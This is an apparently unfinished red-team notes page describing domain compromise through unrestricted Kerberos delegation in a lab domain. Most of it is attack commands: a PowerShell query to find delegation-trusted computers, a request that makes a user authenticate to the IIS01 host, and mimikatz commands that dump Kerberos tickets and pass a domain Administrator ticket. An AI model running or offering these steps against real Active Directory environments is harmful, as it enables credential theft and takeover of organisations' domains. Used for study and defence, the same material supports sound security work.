




# Domain Compromise via Unrestricted Kerberos Delegation


WIP





Set IIS01 computer to unrestricted delegation:


Finding computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```


```text
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```



```text
mimikatz # sekurlsa::tickets
```


```text

mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```










